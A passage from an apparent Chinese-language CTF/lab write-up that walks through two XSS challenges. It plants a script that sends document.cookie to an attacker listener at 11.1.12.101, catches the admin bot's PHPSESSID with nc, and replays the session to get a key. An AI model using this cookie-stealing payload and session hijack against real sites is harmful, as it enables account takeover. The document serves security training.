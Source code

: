 ![image-20241125152018426](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125152018426.png)

key在后台，需要伪造cookie登录到后台

`<script>
    document.write('<img src="http://11.1.12.101:8011/?'+document.cookie+'">');
</script>`


![image-20241125155838088](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125155838088.png)

进行nc端口监听

```
nc.exe -l -p 8011
```

提交查询，再次加载主页Welcome，看到nc监听成功，提交代码有效

![image-20241125160257786](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125160257786.png)

**注**：如果此处代码无误却执行不成功，要检查网络是否是工作网络，确保互通。

`CTRL+C`停掉监听，再次监听8011端口，等待……

![image-20241125160946207](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125160946207.png)

有PhantomJS指纹，表示此环境监听cookie成功，替换PHPSESSID到浏览器伪造身份

![image-20241125161434738](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125161434738.png)

*如果此处没有PHPSESSID，可以随便输入登录一下，使其有记录*

接着访问主页面http://11.1.10.12:34213——点击Admin，得到key

![image-20241125161930827](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125161930827.png)

### 34224 XSS

![image-20241125162024538](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125162024538.png)

直接伪造cookie

`<script>
    document.write('<img src="http://11.1.12.101:8012/?'+document.cookie+'">');
</script>`


![image-20241125162421659](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125162421659.png)

监听8012端口，执行有效

![image-20241125162558862](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241125162558862.png)

这里一定要访问首页主页，我这一步出错了
